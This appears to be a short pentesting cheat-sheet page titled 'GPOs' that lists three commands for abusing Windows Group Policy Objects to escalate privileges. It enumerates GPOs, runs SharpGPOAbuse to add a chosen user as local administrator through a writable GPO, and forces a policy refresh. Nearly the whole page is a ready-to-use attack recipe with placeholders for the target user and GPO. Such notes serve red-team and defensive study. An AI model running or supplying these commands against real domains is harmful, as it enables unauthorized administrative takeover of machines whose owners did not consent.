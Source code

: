 ```yaml
---
title: "GPOs"
date: 2024-8-3
tags: ["GPOs", "Windows", "privesc", "Group Policy Objects"]
---
```


### Abuse #1: Add local admin

#### 1. List GPOs Name

<div>

```console
Get-GPO -All | Select-Object DisplayName
```

</div>

#### 2. Add localAdmin

<div>

```console
.\SharpGPOAbuse.exe --AddLocalADmin --UserAccount <USER> --GPOName <GPO_NAME>
```

</div>

#### 3. Force reload

<div>

```console
gpupdate /force
```

</div>

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>

<br>